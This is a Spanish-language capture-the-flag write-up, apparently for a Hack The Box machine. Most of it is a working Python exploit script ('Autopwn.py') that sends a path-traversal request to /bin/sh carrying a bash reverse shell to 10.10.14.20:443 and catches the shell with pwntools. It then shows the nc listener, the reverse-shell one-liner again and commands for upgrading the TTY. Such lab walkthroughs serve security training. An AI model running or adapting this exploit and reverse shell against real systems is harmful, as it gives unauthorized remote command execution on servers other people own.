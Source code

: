 ## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Autopwn.py {-}

```python
#!/usr/bin/python3

import requests
import sys
import signal
import pdb
import threading
import time

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://10.10.10.165/.%0d./.%0d./.%0d./.%0d./bin/sh"
lport = 443

def makeRequest():

    data_post = {
        b'bash -c "bash -i >& /dev/tcp/10.10.14.20/443 0>&1"'
    }

    r = requests.post(main_url, data=data_post)

if __name__ == '__main__':

    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        log.error(str(e))

    p1 = log.progress("Acceso")
    p1.status("Ganando acceso al sistema")

    shell = listen(lport, timeout=5).wait_for_connection()

    if shell.sock is None:
        p1.failure("No ha sido posible ganar acceso al sistema")
        sys.exit(1)
    else:
        shell.interactive()
```

Lo ejecutamos

```bash
python autopwn.py
whoami
#Output
www-data

ifconfig
```

El tito prefiere entablarse una shell normal. Se pone en escucha con `nc -nlvp 443` y lanza en la shell creado por el script
`bash -i >& /dev/tcp/10.10.14.20/443 0>&1`

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <numero filas> columns <numero columnas>
```

